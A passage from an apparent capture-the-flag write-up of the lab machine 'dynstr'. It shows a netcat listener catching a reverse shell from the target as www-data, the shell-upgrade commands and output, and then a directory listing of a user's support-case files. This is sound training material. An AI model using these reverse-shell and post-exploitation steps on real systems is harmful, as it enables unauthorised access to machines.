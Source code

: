 Sending the request in burp we get a hit on our webserver and right afterwards a connection on our ncat listener.

[![reverse_shell](/img/dynstr/reverse_shell.png)](/img/dynstr/reverse_shell.png)

```
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.160.254 - - [12/Jun/2021 23:18:52] "GET / HTTP/1.1" 200 -
```

We upgrade our shell as www-data, fix the terminal size and continue our way to root.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.160.254.
Ncat: Connection from 10.129.160.254:49140.
bash: cannot set terminal process group (795): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dynstr:/var/www/html/nic$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<nic$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@dynstr:/var/www/html/nic$ export TERM=xterm
export TERM=xterm
www-data@dynstr:/var/www/html/nic$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@dynstr:/var/www/html/nic$ stty rows 55 cols 236
```

## Traces and nsupdate

Looking in bindmgr's home directory we find some leftovers from a support case.

```
www-data@dynstr:/home/bindmgr/support-case-C62796521$ ls -la
total 436
drwxr-xr-x 2 bindmgr bindmgr   4096 Mar 13 14:53 .
drwxr-xr-x 5 bindmgr bindmgr   4096 Jun 13 00:24 ..
-rw-r--r-- 1 bindmgr bindmgr 237141 Mar 13 14:53 C62796521-debugging.script
-rw-r--r-- 1 bindmgr bindmgr  29312 Mar 13 14:53 C62796521-debugging.timing
-rw-r--r-- 1 bindmgr bindmgr   1175 Mar 13 14:53 command-output-C62796521.txt
-rw-r--r-- 1 bindmgr bindmgr 163048 Mar 13 14:52 strace-C62796521.txt
```
